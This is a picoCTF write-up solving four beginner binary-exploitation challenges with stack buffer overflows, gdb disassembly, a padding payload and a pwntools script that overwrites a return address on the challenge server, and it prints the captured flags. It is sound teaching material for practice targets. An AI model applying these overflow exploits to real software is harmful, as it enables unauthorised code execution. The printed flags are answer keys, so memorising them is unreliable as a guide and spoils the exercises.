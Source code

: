 ## buffer overflow 0
This program has the vulnerable **gets**  and the **strcpy** funtion for reading and copying the buffer respectively. From the program we can notice that it has a special signal handler to handle **SIGSEGV** signals i.e. segmentation fault errors. 
```
signal(SIGSEGV, sigsegv_handler);
```
```
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
From this we can see that any segmentation fault will cause the program to print the flag.So we just overflow the inptu buffer to get the flag.   
![alt text](images/image.png)  
Flag: **picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}**  


## Picker IV
Compared to **Picker III**, this one is easier. The program itself asks us to give it a location to jump to.  
![alt text](images/image-1.png)  
Looking at the source code, we see that the program has the ***win*** function to print out the flag. Let's open it in gdb and find the location of this function and make it jump to that location.
```
(gdb) disassemble win
Dump of assembler code for function win:
   0x000000000040129e <+0>:     endbr64 
   0x00000000004012a2 <+4>:     push   rbp
   0x00000000004012a3 <+5>:     mov    rbp,rsp
   0x00000000004012a6 <+8>:     sub    rsp,0x10
   0x00000000004012aa <+12>:    lea    rdi,[rip+0xd74]        # 0x402025
   0x00000000004012b1 <+19>:    call   0x4010f0 <puts@plt>
   0x00000000004012b6 <+24>:    lea    rsi,[rip+0xd71]        # 0x40202e
   0x00000000004012bd <+31>:    lea    rdi,[rip+0xd6c]        # 0x402030
```
```
Enter the address in hex to jump to, excluding '0x': 40129e                    
You input 0x40129e
You won!
Cannot open file.
[Inferior 1 (process 49199) exited normally]
(gdb) q
```
Once we try the same on the instance, we get the flag.  
![alt text](images/image-2.png)  
Flag: **picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}**


## Local Target
Let's first try to smash the stack and see if we can modify the **num** variable.  
![alt text](images/image-3.png)  
We have managed to modify the **num** variable, now we need to find the exact offset position.  
After a little trial and error, we find the offset.  
![alt text](images/image-4.png)  
**1145324612 = 0x44444444 -> DDDD**  and since **65 -> 0x41 -> A**  
The final payload is: ***AAAAAAAAAAAAAAAABBBBCCCCA***  
![alt text](images/image-5.png)  
![alt text](images/image-6.png)  
Flag: **picoCTF{l0c4l5_1n_5c0p3_ee58441a}**  


## buffer overflow 1
We first try to smash the stack.  
![alt text](images/image-7.png)  
Now that we have our buffer, we need the address of the program to jump to.  
![alt text](images/image-8.png)  
All that is left is to create the payload.   
```
from pwn import *

padding = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  # 44 bytes

address = p32(0x080491f6)

host = "saturn.picoctf.net"
port = 54856
conn = remote(host, port)

payload = padding + address

conn.sendline(payload)

conn.interactive()
```
We run the program and get the flag.  
![alt text](images/image-9.png)  
Flag: **picoCTF{addr3ss3s_ar3_3asy_b15b081e}**  